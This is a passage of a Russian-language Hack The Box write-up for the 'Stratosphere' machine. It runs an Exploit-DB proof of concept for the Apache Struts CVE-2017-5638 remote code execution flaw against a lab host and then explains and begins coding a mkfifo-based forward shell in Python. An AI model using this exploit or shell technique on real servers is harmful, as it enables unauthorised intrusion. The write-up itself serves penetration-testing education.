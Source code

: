 ```
Apache Struts 2.5 < 2.5.12 - REST Plugin XStream Remote Code Execution                    | exploits/linux/remote/42627.py
-----------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Result
```

Похоже, `exploits/linux/webapps/41570.py` — именно то, что нам нужно. Этот скрипт представляет PoC уязвимости [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638 "NVD - CVE-2017-5638"), имеющей максимальный рейтинг опасности (10.0) и заключающейся в некорректной обработке исключений, вследствие которой аттакующий получает возможность выполнения произвольных команд на сервере.

Что ж, попробуем эксплоит в действии:
```text
root@kali:~# python /usr/share/exploitdb/exploits/linux/webapps/41570.py http://10.10.10.64/Monitoring/example/Welcome.action id
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: id

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
```

И-и-и у нас есть RCE. Забегая вперед, должен сказать, что повысить привилегии до пользователя в рамках данного бокса можно было просто выполняя команды таким способом, без получения полноценного reverse-shell'а (который, как выяснилось, получить было невозможно в силу жесткой фильтрации http-трафика, возможно файервол). Однако, мы не ищем легких путей, к тому же это отличная возможность попробовать в действии один из способов сборки *forward-shell*'a.

## Forward-Shell
Основная идея такого способа получения командной строки заключается в создании на машине жертвы именованного канала (`stdin`) с помощью `mkfifo` и выходного файла (`stdout`), куда будет записываться вывод команд. После чего к `stdin` с помощью утилиты `tail` привязывается процесс `/bin/sh`, вывод которого перенаправляется в `stdout`. Флаг `-f` утилиты `tail` обеспечивает сохранение процесса выполнения команд даже при достижении конца файла входного канала (когда команды не поступают). В представленном ниже скрипте используется именно такая логика, плюс на фоне поднимается параллельный поток, который с некоторым интервалом опрашивает `stdout` и возвращает его содержимое — результат выполнения последней команды:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Usage: python3 StratosphereFwdShell.py

import urllib.request as urllib2
import http.client as httplib
# _import socket

import base64
import random
import threading
import time


class Stratosphere:

	URL = r'http://10.10.10.64/Monitoring/example/Welcome.action'

	def __init__(self, interval=1.3):
		self.url = Stratosphere.URL

		session = random.randrange(10000, 99999)
		self.stdin = f'/dev/shm/input.{session}'
		self.stdout = f'/dev/shm/output.{session}'
		print(f'[*] Session ID: {session}')
```

[//]: # (2019-09-17)
[//]: # ({{ "/img/xakep-badge.png" | relative_url }})